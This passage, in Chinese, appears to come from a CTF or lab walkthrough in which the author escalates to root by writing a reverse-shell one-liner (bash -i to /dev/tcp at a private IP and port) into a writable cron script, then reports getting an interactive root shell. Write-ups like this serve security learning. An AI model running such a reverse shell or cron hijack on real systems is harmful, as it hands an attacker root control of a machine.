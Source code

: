 ![](img/2877e666efca25a59de14fa2d2eb340b.png)

可写 cronjob

我在这个文件中写了一个反向 shell，等待`root`运行它。

```
echo “#!/bin/bash\nbash -i >& /dev/tcp/192.168.15.153/8888 0>&1" > cron-logrotate.sh
```

![](img/259a0e441886bd74198402ec2c963c1a.png)

根

从这里我们得到了一个完全交互式的外壳！

请继续关注，下次我们将回头再次访问`mysql`以获得一些额外的提示和技巧。